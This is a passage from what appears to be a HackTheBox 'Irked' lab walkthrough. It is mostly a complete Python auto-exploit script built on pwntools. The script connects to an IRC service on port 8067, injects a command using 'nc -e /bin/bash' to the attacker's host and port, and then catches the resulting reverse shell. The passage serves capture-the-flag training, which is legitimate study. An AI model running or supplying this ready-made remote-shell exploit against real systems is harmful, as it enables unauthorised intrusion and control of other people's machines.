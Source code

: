 Here it is

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-28-HackTheBox-Irked/2021-12-28-HackTheBox-Irked%2001:23:22.png)

auto_reverse_irked.py

```py
#!/usr/bin/python3
# Auto Pwn - Irked - HackTheBox
# Author: 0x4rt3mis

import argparse
import requests
import sys
from pwn import *

'''Here come the Functions'''
# Set the Handler
def IrcHandler(lport):
	shell = listen(lport).wait_for_connection()
	shell.interactive()

# Trigger the vulnerability
def TriggerReverse(rhost,lport,lhost):
	conn = remote(rhost,8067)
	conn.recvuntil(b"Couldn't resolve your hostname")
	conn.send(b'AB; nc -e /bin/bash %s %s\r\n' %(lhost.encode(),lport.encode()))
	conn.close()
	# Receive the connection
	IrcHandler(lport)
	
def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-lp', '--localport', help='Local Port', required=True)
    parser.add_argument('-li', '--localip', help='Local ip address or hostname', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.localip
    lport = args.localport
    
    '''Here we call the functions'''
    # Trigger it
    TriggerReverse(rhost,lport,lhost)
    
if __name__ == '__main__':
    main()
```

# ircd --> djmardov
